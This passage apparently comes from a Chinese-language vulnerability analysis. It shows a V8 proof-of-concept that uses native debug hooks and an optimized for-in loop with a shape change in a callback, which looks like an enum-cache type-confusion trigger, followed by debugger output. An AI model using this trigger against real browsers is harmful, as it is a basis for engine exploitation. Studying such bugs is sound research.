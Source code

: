   
调试一下上面涉及到的原理  
  
  
调试的poc  
  
  
```
function stop(){
    %SystemBreak();
}

function p(arg){
    %DebugPrint(arg);
}

const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 2;
object2.b = 3;
const object3 = {};
object3.a = 4;
object3.b = 5;
object3.c = 6;

for (let key in object2) { } 
p(object1);
p(object2);
p(object3);
stop();

function trigger(callback) {
    console.log("trigger");
    stop();
    for (let key in object2) {
        callback();
        console.log(object2[key]);
    }
}

% PrepareFunctionForOptimization(trigger);
trigger(_ => _);
trigger(_ => _);
% OptimizeFunctionOnNextCall(trigger);

trigger(_ => {
    object3.c = 1.1;
    for (let key in object1) { }
});

```  
  
  
  

  [0]: 0x224300002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x224300002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x224300002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any